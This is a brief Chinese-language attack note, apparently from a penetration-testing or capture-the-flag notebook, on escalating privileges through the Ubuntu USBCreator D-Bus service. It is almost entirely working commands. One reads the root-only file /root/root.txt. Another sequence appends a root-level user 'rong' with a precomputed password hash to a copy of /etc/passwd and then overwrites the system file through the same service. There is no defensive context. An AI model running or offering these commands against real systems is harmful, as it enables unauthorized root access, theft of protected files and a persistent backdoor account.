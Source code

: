 # com.ubuntu.USBCreator.conf

要求具有sudo组以及同等效力组\
将一个已知文件的内容，投射到一个不存在的文件\
而后我们查看，发现这个文件会被创建

1. 读取：

```bash
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /root/root.txt /dev/shm/dashabi true
```

1. 写入root用户

```bash
cp /etc/passwd passwd //靶机执行
openssl passwd -1 rong //本机
echo 'rong:$1$7P/yeC8J$z2eywF.JUPm21Dx0IqVEp.:0:0:pwned:/root:/bin/bash' >> passwd 
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /dev/shm/passwd /etc/passwd true
su rong
```
